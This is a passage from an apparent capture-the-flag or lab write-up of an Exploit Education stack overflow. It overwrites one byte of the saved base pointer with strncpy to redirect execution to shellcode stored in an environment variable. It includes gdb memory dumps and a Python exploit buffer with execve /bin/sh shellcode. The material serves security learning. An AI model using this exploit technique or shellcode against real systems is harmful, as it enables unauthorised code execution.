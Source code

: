 Luckily our shell code from environment variable `ExploitEducation=` is located at `0x7fffffffef10` and expands to `0x7fffffffef10`+ 126 (decimal) based on our strategy point one. Now, our job is to figure out some address between `0x7fffffffe501` to `7fffffffe5ff`.

```shell
(gdb) x/32gx 0x7fffffffe500
0x7fffffffe500: 0x00007ffff7ffc948      0x0000000000000049
0x7fffffffe510: 0x00007fffffffe58f      0x0000000000000001
0x7fffffffe520: 0x0000000000000049      0x00007ffff7ffb300
0x7fffffffe530: 0x0000000000000000      0x0000000000400878
0x7fffffffe540: 0x000000000040079b      0x0000000000000000
0x7fffffffe550: 0x0000000000000000      0x00007ffff7db6dde
0x7fffffffe560: 0x000000000040079b      0x01e002800078001e
0x7fffffffe570: 0x0000000000000000      0x00007ffff7db6b1e
0x7fffffffe580: 0x00007ffff7ffb300      0x0a00000000000000
0x7fffffffe590: 0x00007fffffffe638      0x00007ffff7d8fe8f
0x7fffffffe5a0: 0x00007fffffffe638      0x00007fffffffe638
0x7fffffffe5b0: 0x00007fffffffe5e0      0x00000000004007e9
0x7fffffffe5c0: 0x00007fffffffe638      0x00000001ffffe648
0x7fffffffe5d0: 0x000000000040079b      0x00007fffffffef10  # <-------------- We're Lucky
0x7fffffffe5e0: 0x0000000000000001      0x00007ffff7d8fd62
0x7fffffffe5f0: 0x0000000000000000      0x00007fffffffe630
```

And we're lucky to have memory address `0x7fffffffe5d0` pointing to `0x7fffffffef10` aka environment variable `shell code`. Now, it's all matter of few seconds to connect all dots by overwriting `$rbp` base pointer LSB `0xd0` and redirecting the code flow to gain code execution. However, overwriting LSB of base pointer doesn't actually trigger the code execution. When the program execution `leave` command from `main` function, the content of `$rbp` register is used to determine the `$rsp` aka `$rbp+8` to load `$rip` (Next Instruction Pointer). So, `0x7fffffffe5d0` points to `0x000000000040079b` and `$rsp` ($rbp+8) to `0x00007fffffffef10` which eventually loads into `$rip` to execute the shell code.

### Exploit

As we know that `strncpy` function prone to stack/buffer overflow based on context, We're about to carefully plan the exploit and plant the shellcode within the environment variable and overwrite LSB of `$rbp` base pointer, `$rsp` stack pointer and redirect the program to shellcode address. Unlike real word scenario such as `ASLR - Address Layout Randomization` and other preventions in place, We now get a chance to hardcode the `buffer` address which 100% static in this environment. Let's now visit the malicious buffer construction,

<sup> *check `Trial and Error section` to learn about why address slightly differs while executing in gdb vs seperate program invoked from shell</sup>

1. Initialize the buffer with Shell code. Grab one from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-603.html)
2. Fill the buffer with 96 characters preferably 'A' or `\x41`  
3. Finally the LSB of `$rbp` as `\xd0`.

So, here goes the exploit buffer generated with python code,

```python
buffer = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" # length: 30
buffer += "A"*96 #length: 96 
buffer += "\xd0" #length: 1
print(buffer) #total length: 127
```
